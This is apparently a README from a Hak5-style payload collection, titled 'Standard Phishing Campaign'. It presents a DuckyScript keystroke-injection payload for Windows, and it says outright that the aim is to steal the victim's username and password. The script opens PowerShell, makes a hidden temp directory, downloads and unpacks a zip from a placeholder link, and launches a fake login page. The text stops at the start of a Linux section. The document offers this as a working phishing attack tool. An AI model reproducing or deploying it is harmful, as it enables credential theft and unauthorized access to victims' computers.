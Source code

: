 # Standard Phishing Campaign

A script used to exfiltrate the Standard username and password by a phishing campaign.

**Category**: Phishing

## Description

A script used to exfiltrate the Standard username and password by a phishing campaign.

This DuckyScript code performs several actions related to downloading and unzipping a file from a specified link. The script creates a new random directory, downloads a zip file from the specified URL, and unzips it. It also opens a login page.

This payload was created and tested on Linux but since the HTML markup code and JavaScript language are cross platform it will certainly be usable on machines running Windows or MacOS as well. However, it is essential to modify the DuckyScript script appropriately according to the terminal emulator used (PowerShell for Windows, Shell MacOS for Macs) since the commands are often not the same. To make it easier to use below you can find the various tested configurations, at the moment it is not available for macOS because since I do not have one it cannot be tested and therefore I cannot give the certainty that it works, however I hope that in the Hak5 community there may be someone who can contribute to this payload by completing it with this missing part.

## Payload.txt config - Windows 10/11 - Tested on Windows 11

```DuckyScript
    DELAY 1000
    GUI r
    DELAY 1000
    STRING powershell
    ENTER
    DELAY 2000

    STRINGLN do { $dir_name = [IO.Path]::Combine([IO.Path]::GetTempPath(), [IO.Path]::GetRandomFileName()) } while (Test-Path $dir_name)
    DELAY 500
    STRINGLN New-Item -ItemType Directory -Path $dir_name -ErrorAction Stop
    DELAY 500
    STRINGLN Set-Location $dir_name -ErrorAction Stop
    DELAY 500
    STRINGLN Invoke-WebRequest -Uri "#ZIP_LINK" -OutFile file.zip
    DELAY 2000
    STRINGLN Expand-Archive file.zip
    DELAY 500
    STRINGLN Invoke-Item login.html
    DELAY 500
```

## Payload.txt config - Linux (Debian based) - Tested on Ubuntu 23.04
